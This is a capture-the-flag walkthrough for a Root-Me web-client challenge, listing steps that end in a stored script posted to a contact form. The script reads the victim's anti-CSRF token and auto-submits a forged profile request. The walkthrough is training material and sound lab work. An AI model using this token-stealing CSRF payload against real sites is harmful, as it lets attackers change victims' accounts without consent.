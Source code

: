 1. [Open the task](http://challenge01.root-me.org/web-client/ch23/index.php)
2. [Register an account](http://challenge01.root-me.org/web-client/ch23/index.php?action=register)
3. [Log in to your account](http://challenge01.root-me.org/web-client/ch23/index.php?action=login)
4. [Go to the profile page](http://challenge01.root-me.org/web-client/ch23/index.php?action=profile)
5. Make the checkbox visible through the developer tool

	It was: ```<input type="checkbox" name="status" disabled="">```

	Become: ```<input type="checkbox" name="status">```

6. Launch **Burp Suite::Proxy::HTTP history**
7. Click the **Submit** button and check the request data
8. [Go to the Contact tab](http://challenge01.root-me.org/web-client/ch23/index.php?action=contact)
9. Enter in the **email** field: **_"username"_** + **_"@mail"_**
10. Enter the following into the **Comment** form:

```
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
<input type="hidden" name="username" value="YOUR_USERNAME"> <!-- Enter your username -->
<input type="hidden" name="status" value="on" />
<input id="token" type="hidden" name="token" value="" /> 
</form> 
<script> 
var request = new XMLHttpRequest(); 
request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false); 
request.send(null); 
var token = request.responseText.match("token\" value=\"(.*?)\"")[1];
document.getElementById("token").value = token; 
document.csrf.submit();
</script>
```

11. If everything is done correctly, you will see the following message: 

>Your message has been posted. The administrator will contact you later.

12. [Checking the Private tab](http://challenge01.root-me.org/web-client/ch23/index.php?action=private), you can get a **flag**